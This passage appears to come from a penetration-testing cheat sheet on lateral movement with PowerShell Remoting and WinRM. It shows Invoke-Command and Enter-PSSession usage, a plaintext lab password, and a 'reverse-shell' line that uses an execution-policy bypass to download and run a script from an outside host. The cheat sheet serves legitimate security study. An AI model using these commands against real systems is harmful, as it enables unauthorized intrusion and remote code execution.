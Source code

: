 ```

### Execute a command

To execute `ipconfig` remotely on a target machine and view its output do:

```bash
Invoke-Command -computername computer-name.domain.tld -ScriptBlock {ipconfig /all} [-credential DOMAIN\username]
```
```
![[<../images/image (151).png>|]]

You can also **execute a command of your current PS console via** _**Invoke-Command**_. Suppose that you have locally a function called _**enumeration**_ and you want to **execute it in a remote computer**, you can do:

```bash
Invoke-Command -ComputerName <computername> -ScriptBLock ${function:enumeration} [-ArgumentList "arguments"]
```
```
### Execute a Script

```bash
Invoke-Command -ComputerName <computername> -FilePath C:\path\to\script\file [-credential CSCOU\jarrieta]
```
```
### Get reverse-shell

```bash
Invoke-Command -ComputerName <computername> -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8080/ipst.ps1')"}
```
```
### Get a PS session

To get an interactive PowerShell shell use `Enter-PSSession`:

```bash
#If you need to use different creds
$password=ConvertTo-SecureString 'Stud41Password@123' -Asplaintext -force
## Note the ".\" in the suername to indicate it's a local user (host domain)
$creds2=New-Object System.Management.Automation.PSCredential(".\student41", $password)

# Enter
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local [-Credential username]
## Bypass proxy
Enter-PSSession -ComputerName 1.1.1.1 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
# Save session in var
$sess = New-PSSession -ComputerName 1.1.1.1 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession $sess
## Background current PS session
Exit-PSSession # This will leave it in background if it's inside an env var (New-PSSession...)
```
```
![[<../images/image (1009).png>|]]

**The session will run in a new process (wsmprovhost) inside the "victim"**

### **Forcing WinRM Open**

To use PS Remoting and WinRM but the computer isn't configured, you could enable it with:

```